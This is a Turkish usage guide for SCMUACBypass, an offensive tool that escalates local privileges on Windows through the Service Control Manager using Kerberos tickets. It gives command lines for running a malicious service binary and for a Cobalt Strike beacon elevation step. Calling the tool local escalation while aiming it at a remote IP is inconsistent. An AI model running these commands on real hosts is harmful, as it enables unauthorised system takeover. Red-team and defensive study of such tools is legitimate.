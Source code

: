 # SCMUACBypass Kullanım Kılavuzu

## Giriş
SCMUACBypass, Kerberos kimlik doğrulaması aracılığıyla Service Control Manager'a (SCM) erişim sağlayan ve bir hizmet ikili yükü kullanarak yerel yetki yükseltme (LPE) gerçekleştiren bir araçtır. Bu araç, özellikle Kerberos röle saldırı vektörleriyle birlikte kullanılmak üzere tasarlanmıştır. Araç, saldırı sırasında gerekli olan biletlerin önceden önbellekte bulunmasını gerektirir.

---

## Gereksinimler
- Windows ortamında çalışacak şekilde yapılandırılmış bir sistem
- Kerberos kimlik bilgileri ve saldırıya uygun biletler
- Cobalt Strike veya benzeri bir framework

---

## Özellikler
- Kerberos kimlik doğrulaması kullanarak SCM'ye erişim
- Hizmet tabanlı yükler ile LPE gerçekleştirme
- Cobalt Strike ile entegrasyon için Aggressor Script desteği

---

## Kullanım

### Yardım Mesajını Görüntüleme
SCMUACBypass komutlarının ve argümanlarının tam listesini görmek için:
```cmd
SCMUACBypass.exe -h
```

### Temel Kullanım
SCMUACBypass, bir hizmet yükü ile LPE gerçekleştirmek için şu şekilde kullanılabilir:
```cmd
SCMUACBypass.exe <target> <payload>
```

| Parametre       | Açıklama                                                              |
|-----------------|----------------------------------------------------------------------|
| `<target>`      | Saldırının hedefi olan sistemin adı veya IP adresi                  |
| `<payload>`     | Çalıştırılacak hizmet ikili dosyasının yolu                          |

---

## Örnek Kullanımlar

### 1. Temel Saldırı
Bir hedef üzerinde Kerberos kimlik bilgilerini kullanarak LPE gerçekleştirme:
```cmd
SCMUACBypass.exe 192.168.1.10 C:\Temp\malicious_service.exe
```

### 2. Cobalt Strike ile Kullanım
SCMUACBypass, Cobalt Strike içinde aşağıdaki gibi bir komutla kullanılabilir:
```cmd
beacon> elevate svc-exe-krb tcp-local
```
Komut, bir bağlantıyı başarıyla kurduğunda şu şekilde bir çıktı verir:
```
[+] established link to child beacon: 172.16.0.100
```

---

## Notlar
- Bu araç, yalnızca yasal ve etik amaçlarla kullanılmalıdır.
- Kerberos biletlerinin uygun şekilde ayarlanmış olması gerekir.
- Hizmet yükü, hedef sistemde uygun izinlerle çalıştırılabilmelidir.

---

## Kaynaklar
- [SCMUACBypass GitHub](https://github.com/rasta-mouse/SCMUACBypass)
- [Kerberos Hakkında Daha Fazla Bilgi](https://learn.microsoft.com/en-us/windows-server/identity/kerberos)

---

Bu rehber, SCMUACBypass aracını kullanarak Service Control Manager üzerinden yetki yükseltme saldırılarını gerçekleştirmenin temellerini kapsamaktadır. Daha fazla bilgi için yukarıdaki kaynaklara başvurabilirsiniz.
